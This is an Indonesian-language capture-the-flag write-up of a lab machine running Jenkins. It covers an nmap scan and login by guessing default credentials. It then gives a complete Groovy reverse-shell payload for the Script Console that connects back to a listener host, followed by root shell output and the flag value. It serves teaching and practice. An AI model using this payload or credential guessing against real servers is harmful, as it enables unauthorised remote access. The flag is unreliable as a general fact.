

## Reconnaissance

Melakukan enumerasi open port dan running service menggunakan nmap.

```bash
└─$ sudo nmap -sV -sC 10.129.248.104       
[sudo] password for w1thre: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-25 13:01 WIB
Nmap scan report for 10.129.248.104
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.39.v20210325)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.50 seconds

```

### Analyze Scan Result

- Port 8080 menjalankan service http dengan version Jetty 9.4.39.v20210325. Jetty sering digunakan sebagai server web untuk aplikasi berbasis Java.

Ketika kita buka pada browser, akan menampilkan login page untuk Jenkins.



Disini kita bisa guessing password nya atau juga bisa menggunakan hydra

```bash
admin:password
admin:admin
root:root
root:password
admin:admin1
admin:password1
root:password1
```

Credentials nya yaitu root:password. Disini kita telah berhasil login.


## Foothold

Pada versi Jenkins 2.289.1 terdapat kerentanan dimana kita bisa melakukan RCE untuk melakukan Reverse Shell pada Jenkins Script Console dengan catatan kita harus menggunakan Groovy script untuk menjalankan arbitrary code. 

[https://cloud.hacktricks.wiki/en/pentesting-ci-cd/jenkins-security/index.html#rce-in-jenkins](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/jenkins-security/index.html#rce-in-jenkins)

Untuk payload Groovy scriptnya seperti ini:

```bash
String host="10.10.14.16";
int port=1337;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Jangan lupa untuk menjalankan 

```bash
nc -lnvp 1337
```

Jalankan payload pada Script Console dengan klik tombol Run dan kita telah mendapatkan shell nya

```bash
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.16] from (UNKNOWN) [10.129.248.104] 45748
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)

```

## Flag

```bash
cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
```